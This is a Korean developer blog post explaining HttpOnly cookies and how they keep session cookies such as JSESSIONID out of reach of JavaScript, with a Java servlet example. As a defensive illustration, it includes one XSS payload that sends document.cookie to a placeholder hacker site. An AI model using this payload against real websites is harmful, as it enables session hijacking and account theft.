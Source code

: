 ```yaml
---
layout:     post
title:      "[CS] HTTP Only Cookie 사용하기"
subtitle:   "\"Use HTTP Only Cookie\""
date:       2024-04-11 19:00:00
author:     "JacksonJang"
header-img: "assets/posts/post-bg_2024.jpg"
post_assets: "/assets/posts/2024-04-11"
catalog: true
tags:
    - Frontend
    - Backend
    - CS
---
```

> HttpOnly를 사용하면, XSS 공격을 예방할 수 있습니다.

우리가 인터넷을 사용하다 보면 HTTP 및 HTTPS 통신을 자주 하게 됩니다.
그러다 보면 로그인이나 상품을 구매할 수도 있고 다양한 활동들을 하게 되는데, 이때 사용되는 것이 **쿠키**입니다.

### 쿠키(Cookie)
**쿠키(Cookie)**는 세션 및 기타 정보를 관리하기 위해 사용합니다.
이런 쿠키가 존재하는 이유는 사용자의 유효성 검사를 위해서 주로 사용되는데, 톰캣을 사용한다면 주로 볼 수 있는 쿠키는 **JSESSIONID** 입니다.

> JSESSIONID : 톰캣 컨테이너에서 세션을 유지하기 위해 발급하는 키

## HTTP Only
<img width="600px" src="{{ page.post_assets }}/httpOnly_noneHttpOnly.png" />
<br />
위 사진처럼 httpOnly는 HttpOnly에 체크되어 있고, noneHttpOnly는 HttpOnly가 체크되어 있지 않습니다.

<img width="600px" src="{{ page.post_assets }}/console.png" />
위 사진은 `document.cookie`를 했을 때, 나온 결과 화면입니다.
<br />
보이는 대로 HttpOnly로 설정된 쿠키는 javascript에서 노출되지 않습니다.(단, 개발자 도구를 통해서는 볼 수 있습니다.)

따라서, 다음과 같은 XSS 공격을 통해 해커가 쿠키 값을 가져올 수 없습니다.
```js
<script> 
location.href = '해커사이트주소?cookie=' + document.cookie 
</script>
```

## Java 서버에서 처리
```java
 public Map index(HttpServletRequest request, HttpServletResponse response) {
    Map<String, Object> map = new HashMap();

    Cookie noneHttpOnly = new Cookie("noneHttpOnly", "test");
    Cookie httpOnly = new Cookie("httpOnly", "test");
    httpOnly.setHttpOnly(true);
    response.addCookie(noneHttpOnly);
    response.addCookie(httpOnly);

    map.put("cookie", request.getCookies());

    return map;
}
```
위와 같은 방식으로 `noneHttpOnly` 쿠키와 `httpOnly` 쿠키를 추가했습니다.

## github 예시
[https://github.com/JacksonJang/httpOnlyExample.git](https://github.com/JacksonJang/httpOnlyExample.git)